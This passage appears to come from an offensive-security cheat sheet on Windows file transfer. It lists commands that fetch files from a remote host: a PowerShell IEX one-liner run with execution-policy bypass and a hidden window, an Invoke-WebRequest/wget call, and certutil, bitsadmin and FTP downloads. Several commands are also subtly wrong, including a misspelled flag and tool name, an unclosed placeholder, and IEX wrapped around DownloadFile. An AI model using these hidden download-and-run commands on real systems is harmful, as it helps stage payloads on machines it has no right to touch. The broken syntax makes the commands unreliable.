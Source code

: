 Powershell has a cmdlet that allows downloading a file from *HTTP* pages:

```
IEX ((New-Object Net.WebClient).DownloadFile('<URL>:<PORT>/<FILE','<OUTFILE>'))
```

The above command can be run from within a Powershell terminal and the below one to directly execute it from `GUI + r` or from another Powershell shell:

```
powershell -ep Bypass -nop -w hidden -c "IEX ((New-Object Net.WebClient).DownloadFile('<URL>:<PORT>/<FILE','<OUTFILE>'))"
```

Don't forget to use single quotes!!

### Invoke-WebRequest

This command is so similar to *wget* that they made an alias for it.

In this way, it doesn't matter to do it like this:

```
wget <URL>:<PORT>/<FILE -OutFile <OUTFILE>
```

Or like this:

```
Invoke-WebRequest <URL>:<PORT>/<FILE -OutFile <OUTFILE>
```

> *-OutFile* is an additional argument.

### Cert-Util

It's a tool originally used for Certificate and Certificate Authority management but it can also be used to download files from *HTTP* pages.

```
certutil -urlcache -splif -f "<URL>:<PORT>/<FILE" <OUTFILE>
```

### Bitsadmin

Also known as *Background Intelligent Transfer Service" is useful to create download or upload jobs and monitor their progress:

```
bitsdmin /transfer n <URL>:<PORT>/<FILE> <OUTFILE>
```

### FTP

We can upload or download files via FTP. To connect to a server:

```
ftp <SERVER>
```

To upload `put` command is used and to download is `get` as in Linux.
